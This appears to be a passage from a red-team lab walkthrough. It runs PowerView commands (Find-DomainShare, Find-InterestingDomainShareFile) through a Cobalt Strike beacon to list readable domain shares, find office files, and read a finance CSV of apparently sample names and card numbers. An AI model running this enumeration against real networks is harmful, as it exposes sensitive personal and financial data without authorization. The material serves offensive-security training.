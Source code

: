 `Find-DomainShare` in PowerView searches for computer shares on the domain.  The `-CheckShareAccess` parameter only shows that shares the current user has read access to.
```
beacon> powershell Find-DomainShare -CheckShareAccess

Name             Type Remark                                      ComputerName             
----             ---- ------                                      ------------             
CertEnroll          0 Active Directory Certificate Services share dc-2.dev.cyberbotic.io   
home$               0                                             dc-2.dev.cyberbotic.io   
NETLOGON            0 Logon server share                          dc-2.dev.cyberbotic.io   
software            0                                             dc-2.dev.cyberbotic.io   
SYSVOL              0 Logon server share                          dc-2.dev.cyberbotic.io   
finance$            0                                             fs.dev.cyberbotic.io
```
  

`Find-InterestingDomainShareFile` takes this a step further and searches each share, returning results where the specified strings appear in the path.
```
beacon> powershell Find-InterestingDomainShareFile -Include *.doc*, *.xls*, *.csv, *.ppt*

Owner          : BUILTIN\Administrators
CreationTime   : 9/15/2022 4:22:55 PM
Path           : \\fs.dev.cyberbotic.io\finance$\export.csv
LastAccessTime : 9/15/2022 4:23:21 PM
LastWriteTime  : 9/15/2022 4:22:55 PM
Length         : 8076

beacon> powershell gc \\fs.dev.cyberbotic.io\finance$\export.csv | select -first 5

id,first_name,last_name,email,address,postal_code,credit_card
1,Emmery,Sutton,esutton0@blogspot.com,4788 Ronald Regan Drive,,374288148757510
2,Abie,Maffezzoli,amaffezzoli1@dagondesign.com,6897 Butternut Alley,,374288483637400
3,Rosina,Mellows,rmellows2@google.pl,100 Commercial Hill,,374283426936183
4,Glen,Chatwood,gchatwood3@bbc.co.uk,59046 Northview Trail,,374283883423493
```